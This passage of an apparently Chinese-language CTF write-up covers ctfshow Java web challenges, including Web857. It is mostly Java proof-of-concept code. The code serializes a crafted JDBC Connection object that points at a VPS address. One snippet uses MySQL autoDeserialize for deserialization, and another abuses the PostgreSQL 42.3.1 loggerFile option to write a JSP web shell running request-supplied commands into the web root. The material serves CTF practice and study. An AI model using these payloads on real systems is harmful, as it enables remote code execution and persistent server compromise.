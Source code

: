 ```java  
        setFieldValue(connection,"host","124.220.215.8"); //vps 地址    
        setFieldValue(connection,"port",3300); //vps端口    
        setFieldValue(connection,"user",new User("huahua","1"));    
        setFieldValue(connection,"schema","jdbc:mysql");    
        setFieldValue(connection,"database","detectCustomCollations=true&autoDeserialize=true");    
    
        ByteArrayOutputStream baos = new ByteArrayOutputStream();    
        ObjectOutputStream ois = new ObjectOutputStream(baos);    
        ois.writeObject(connection);    
    
        String payload = Base64.getEncoder().encodeToString(baos.toByteArray());    
        System.out.println(payload);    
    }    
    
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {    
        Field field = obj.getClass().getDeclaredField(fieldName);    
        field.setAccessible(true);    
        field.set(obj, value);    
    }    
    
}  
```  
### Reference  
https://tttang.com/archive/1877/#toc_2serverstatusdiffinterceptor  
https://xz.aliyun.com/t/8159  
## Web857  
- javax.servlet-api 4.0.1  
- mysql-connector-java 5.1.39  
- postgresql 42.3.1  
其中postgresql 42.3.1存在漏洞  
https://forum.butian.net/share/1339  
构造`Poc`  
```java  
package com.ctfshow;    
    
import com.ctfshow.entity.Connection;    
import com.ctfshow.entity.User;    
    
import java.io.*;    
import java.lang.reflect.Field;    
import java.util.Base64;    
    
public class Vuln{    
    public static void main(String[] args) throws Exception{    
        Connection connection = new Connection();    
        setFieldValue(connection,"driver","org.postgresql.Driver");    
        setFieldValue(connection,"host","124.220.215.8"); //vps 地址    
        setFieldValue(connection,"port",3300); //vps端口    
        setFieldValue(connection,"user",new User("huahua","1"));    
        setFieldValue(connection,"schema","jdbc:postgresql");    
        setFieldValue(connection,"database","loggerLevel=DEBUG&loggerFile=../webapps/ROOT/hack.jsp&<%Runtime.getRuntime().exec(request.getParameter(\"huahua\"));%>");    
    
        ByteArrayOutputStream baos = new ByteArrayOutputStream();    
        ObjectOutputStream ois = new ObjectOutputStream(baos);    
        ois.writeObject(connection);    
    
        String payload = Base64.getEncoder().encodeToString(baos.toByteArray());    
        System.out.println(payload);    
```